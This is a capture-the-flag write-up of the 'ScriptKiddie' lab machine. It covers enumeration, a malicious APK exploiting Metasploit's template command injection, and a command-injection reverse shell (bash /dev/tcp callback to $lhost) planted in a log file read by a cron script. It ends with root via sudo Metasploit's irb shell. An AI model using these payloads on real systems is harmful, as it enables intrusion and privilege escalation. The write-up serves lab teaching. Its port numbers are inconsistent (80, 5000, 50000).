# ScriptKiddie - Linux (Easy)

## Summary

This box has a particularly interesting premise, focused around a script kiddie and "quick-win" tools for automated exploiting. It had a Python webserver with a couple of tools including Msfvenom to create a malicious payload. I was able to get Remote Code Execution through a malicious `.apk` to get initial access. Then I was able to exploit a cron job via command injection to move laterally to find a user account that was able to run Metasploit as root. After running Metasploit as root, I was able to drop into an interactive Ruby shell and grab the root flag. 

## Enumeration

Having added the `$machine_IP` to the `/etc/hosts` file, I used Rustscan to pick up open ports which were then fed to `Nmap` for a more thorough scan

```
rustscan -a scriptkiddie.htb -- -A -sV -sC -T4 -v

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

Open $machine_IP:22
Open $machine_IP:5000

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack ttl 63 Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
| http-methods: 
|_  Supported Methods: HEAD OPTIONS POST GET
```

This resulted in two ports - 22 (SSH) and 80 (HTTP). I initially targeted Port 80 as SSH isn't usually a priority (I usually try password guessing - admin, root, box name and default passwords and they didn't work this time around). The target was running a Python webserver on port 5000

## Port 50000 (HTTP)

This looks to be a standard webpage with a GUI like interface for easy output of Nmap results, Msfvenom payloads and Searchsploit search functionality, ideal for a script kiddie, hence the name. 

I am able to run an Nmap scan on the machine with the machine IP and it outputs legitimate results.



I am able to do the same for a Msfvenom payload. Since the Msfvenom payload page has a file upload functionality, this gets my spidey-senses going and since there is already an instance of Searchsploit, I look up Nmap and Msfvenom and I get an APK Template Command Injection for Metasploit which I will explore further. 





The payload options allows me to select between Android, Linux & Windows targets. Once selected, it is possible to download the file for a temporary period. This puts a common name in the certificate. I copied this exploit and ran it to get a malicious `.apk` file but without much luck. However, I was able to generate the `.apk` through Metasploit, which was unstable but I was able to get a working `.apk`





I then uploaded the `.apk` to the webserver and change the Operating System to "Android" with a netcat listener on Port 9999



I was able to get the `user.txt` flag but I was not able to see what this user could run as root. This led me to assume that there is another user that I might need to jump onto. 



Sure enough there is another user called `pwn`! I tried to identify which of `pwn`'s file the `kid` user had access to.

```
find /home/pwn -type f -readable -ls 2>/dev/null
```

This shows a world-readable file called `scanlosers.sh`. This script grabs logs from the webserver and uses the `cut` command to grab unique IP's and then scans the top 10 ports on that IP while saving it to the `recon` folder. After this, it clears the log. 



This is particularly interesting because when enumerating the web server, I noticed that inputting a blank field in the Searchsploit section and attempting to search, results in a funny output message. The fact that the webserver scans attackers checks out with this narrative.



I lightly tweaked my regular bash reverse shell payload to cater to the `cut` commands used and got a reverse shell as the `pwn` user

```
kid@scriptkiddie:~/logs$ echo 'a b $(bash -c "bash -i &>/dev/tcp/$lhost/8888 0>&1")' > hackers
```



## Privilege Escalation

I was able to pick up the reverse shell and running `sudo -l` showed that the pwn user can run metasploit as root.



Once in Metasploit, I drop to the integrated Ruby shell with the `irb` command

```
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object
```



I can use specific command syntax - `system("command")` to run bash commands and can extend this to do a file read.

However, I want a root shell so I can use the `system("bash")` command from the irb shell to get a root shell.



## Cert

